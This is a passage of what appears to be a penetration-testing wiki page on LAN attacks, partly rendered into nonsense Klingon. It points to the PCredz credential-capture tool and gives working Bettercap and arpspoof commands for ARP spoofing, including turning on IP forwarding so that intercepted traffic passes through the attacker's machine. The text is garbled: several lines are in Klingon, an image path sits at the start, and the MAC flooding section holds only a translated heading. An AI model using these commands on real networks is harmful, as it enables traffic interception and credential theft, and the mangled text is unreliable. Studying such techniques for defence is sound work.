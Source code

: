 **Qapla'.**

### Capturing credentials

**[https://github.com/lgandx/PCredz](https://github.com/lgandx/PCredz)** vItlhutlh credentials jatlh pcap pagh live interface.

## LAN attacks

### ARP spoofing

ARP Spoofing consist on sending gratuitous ARPResponses to indicate that the IP of a machine has the MAC of our device. Then, the victim will change the ARP table and will contact our machine every time it wants to contact the IP spoofed.

#### **Bettercap**
```bash
arp.spoof on
set arp.spoof.targets <IP> #Specific targets to ARP spoof (default=<entire subnet>)
set arp.spoof.whitelist #Specific targets to skip while spoofing
set arp.spoof.fullduplex true #If true, both the targets and the gateway will be attacked, otherwise only the target (default=false)
set arp.spoof.internal true #If true, local connections among computers of the network will be spoofed, otherwise only connections going to and coming from the Internet (default=false)
```
#### **Arpspoof**
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1
```
### MAC Flooding - CAM overflow

**tlhIngan Hol translation:**

**MAC Flooding - CAM overflow**
